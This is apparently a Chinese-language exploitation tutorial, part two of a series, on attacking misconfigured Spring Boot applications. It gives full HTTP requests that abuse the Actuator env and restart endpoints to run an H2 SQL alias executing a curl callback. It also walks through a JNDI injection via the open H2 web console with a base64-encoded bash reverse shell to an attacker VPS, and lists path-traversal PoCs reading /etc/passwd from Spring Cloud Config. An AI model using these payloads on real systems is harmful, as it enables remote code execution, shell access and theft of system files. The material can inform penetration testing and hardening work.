






# Spring boot漏洞利用（2）

前面讲了Spring boot的相关漏洞的利用·，这篇继续讲一些Spring boot漏洞的利用

### Spring boot 2.x Actuator配置不当导致RCE

**影响版本**

spring-boot-starter-actuator 2.x with h2

**漏洞利用**

2.x与1.x的漏洞利用是不同的

（1）访问/actuator/env目录，如果存在，则可以试一下如下利用方式。

```
POST /actuator/env HTTP/1.1
Host: ip:60802
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 362

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('curl http://ekb365.dnslog.cn');"}
```


需要注意Content-Type: application/json

（2）执行重启命令来执行第一步发送的命令

```
POST /actuator/restart HTTP/1.1
Host: ip:60804
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 2

{}
```


dnslog平台成功收到了



### Spring Boot + H2数据库JNDI注入RCE


H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权。

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

**漏洞利用**

（1）访问he-console，如果存在，就会出现如下所示界面。


（2）配置JNDI监听，工具下载地址：[https://github.com/su18/JNDI ](https://github.com/su18/JNDI)

（3）修改监听工具的配置文件，这里的端口选择自己在vps上开放的端口



（4）配置反弹shell的命令

命令配置使用了command=bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC92cHMvNDQ0NyAwPiYx==}|{base64,-d}|{bash,-i}。这里base64编码是bash -i >& /dev/tcp/vps/4447 0>&1



（5）配置好后启动：java -jar JNDI-1.0-all.jar

（6）通过http：// ip：port / h2-console访问h2db管理台，在驱动程序类中插入javax.naming.InitialContext，	在JDBC网址中填充：rmi://vps:4444/BypassByEL


​	JNDI收到了请求

 

​	成功接受到了反弹的shell。

 

### Spring Cloud Config目录穿越

这里分享两个POC


- /..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/master
- /..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/master



